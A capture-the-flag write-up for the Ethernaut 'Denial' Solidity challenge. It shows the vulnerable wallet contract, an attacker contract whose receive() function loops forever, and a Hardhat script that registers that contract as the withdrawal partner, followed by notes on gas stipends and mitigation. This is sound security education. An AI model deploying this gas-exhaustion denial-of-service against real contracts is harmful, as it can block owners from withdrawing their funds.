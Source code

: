 ```yaml
---
title: Ethernaut Denial
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Denial challenge writeup
---
```


## Denial

### Challenge

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Background

This challange is a bit consfusing, not in a way of solving it, but in the wording of the challenge and the setup of it. In general the final goal is to perform a denial of service attack on the `withdraw` function, however, even after peforming the attack the owner could bypass it with little to no difficulty. But in any case, this was the challange so it will be tackled.

As the comment in the challange code itself mentions, the `call` function will not `revert` the caller if the calle `revert`s. This means that we cannot perform deny the service simply by reverting. We can however, consume all the available gas and force the entire execution to `revert` with an `outOfGas` exception.

Even though I did not like the context of the challange though, I did learn something unique after finishing this challenge.

### Attack

Create a contract that will consume an infinite amount of gas when receiving funds. This can be achieved by having an infinite loop in the `receive` function. 

* Create a contract that goes into an infite loop when receiving funds.
* Set the contract as the partner

#### DenialSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract DenialSolve {

    constructor() public {}

    receive() external payable {
        while (true) {}
    }
}
```

#### denial-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    denialAddress = "0x8705dDC7eAD886861Cd2EF45155A5f0835A57b57";
    contract = await ethers.getContractAt("Denial", denialAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    DenialSolve = await ethers.getContractFactory("DenialSolve");
    denialSolve = await DenialSolve.deploy();
    await denialSolve.deployed();

    console.log("Level address: " + contract.address)

    // set contract as partner
    tx = await contract.connect(account).setWithdrawPartner(denialSolve.address)
    receipt = await tx.wait()
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/denial-solve.js --network rinkeby
Level address: 0x8705dDC7eAD886861Cd2EF45155A5f0835A57b57
```

### Success Message

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

Note: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.

### Post Challenge

While reading the challange I noticed it mentioned that it should fail for 1M gas or less, but it seemed that this was not really a requirement. At least I could not see why. I thought that doing this is again pretty straing forward. I could simply check the remaining gas while in the loop or even pre-calculate the gas consumption and make sure it would consume at least enough to `revert` a transaction with 1M gas with an `outOfGas` exception.

Then after I read the `Success Message` I realized that the reason there is such a limit is because call will send at most 63/64 units of gas to the callee. This means that if the remaining 1/64 is enough to execute the parent code, then even with an infinite loop, the function would still succeed. This is because the inifinte loop would consume the entire 63/64 of the gas, `revert` with an `outOfGas` exception, and return execution to the caller. Since its a `call` function the revert would not happen in the caller, and since we assumed that 1/64 is enought to finish the parent execution the transaction would finish normally.
